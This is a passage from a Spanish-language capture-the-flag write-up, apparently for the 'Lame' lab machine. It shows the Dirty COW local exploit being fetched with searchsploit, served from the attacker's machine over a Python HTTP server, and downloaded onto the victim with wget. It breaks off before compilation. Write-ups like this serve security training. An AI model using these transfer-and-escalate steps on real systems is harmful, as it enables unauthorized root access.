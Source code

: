 Hacemos la descarga del script `linux/local/40839.c`.

```bash
  ❯ searchsploit -m linux/local/40839.c
  ❯ mv 40839.c dirty.c
```

Por medio de un servidor http generado en python desde nuestra máquina, vamos a compartir el exploit descargado.

```bash
  ❯ sudo python3 -m http.server 80
```

Desde la maquina víctima, por medio de la utilidad `wget` descargamos el exploit compartido anteriormente.

```bash
daemon@lame:/tmp$ wget http://10.10.14.6/dirty.c
  --00:53:49--  http://10.10.14.6/dirty.c
             => `dirty.c'
  Connecting to 10.10.14.6:80... connected.
  HTTP request sent, awaiting response... 200 OK
  Length: 4,817 (4.7K) [text/x-csrc]
  
   0% [                                     ] 0             --.--100%[====================  ================>] 4,817         --.--K/s             
  
  00:53:50 (908.03 KB/s) - `dirty.c' saved [4817/4817]
```

<p align="center">
<img src="/assets/images/lame/05-exploit.png">
</p>

Luego de descargado, se procede a compilar el exploit.
